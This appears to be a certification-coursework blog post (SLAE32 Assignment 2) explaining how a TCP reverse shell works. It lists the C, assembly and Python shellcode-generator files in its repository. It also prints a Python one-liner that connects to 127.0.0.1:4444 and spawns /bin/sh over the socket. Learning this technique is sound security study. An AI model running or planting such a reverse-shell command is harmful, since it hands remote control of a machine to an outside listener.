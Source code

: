 Title: SLAE32 - Assignment 2
Date: 2022-06-04T07:44:56.000Z


## Disclaimer

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-30398

## Source Code

The full source code is stored inside the repository created for this Exam: [rbctee/SlaeExam](https://github.com/rbctee/SlaeExam/tree/main/slae32/assignment/2).

List of files:

- [tcp_rev_shell.c](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/2/tcp_rev_shell.c): Reverse Shell written in `C`

- [tcp_rev_shell.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/2/tcp_rev_shell.nasm): Reverse Shell written in `Assembly`

- [automation/wrapper.py](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/2/automation/wrapper.py): `python` script to automate the generation of shellcode based on arbitrary IP addresses and TCP port

- [automation/template.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/2/automation/template.nasm): generic template used by `wrapper.py`

## Implementation

Follows the visual representation of this technique:

<figure class="kg-card kg-image-card kg-card-hascaption"><img src="__GHOST_URL__/content/images/2022/06/image-2.png" class="kg-image" alt="How a TCP Reverse Shell works" loading="lazy" width="273" height="334"><figcaption class="figure-caption">`How a TCP Reverse Shell works`</figcaption>

After creating a TCP socket, it connects to a specific TCP listener, identified by an `IP:PORT` pair.

At that point, the program redirects input, output and error to the newly-created socket. Finally, a shell is spawned, thus giving an interactive shell to the TCP listener the socket connected to.

The graph is based on the C code I wrote in the next chapter.

### C Code

Given that I didn't know how to write a Reverse Shell in C, first I looked for a simple one-liner in `python` (which is the closest language I'm familiar with):

```bash
python -c 'import socket,os,pty;s=socket.socket();s.connect(("127.0.0.1", 4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
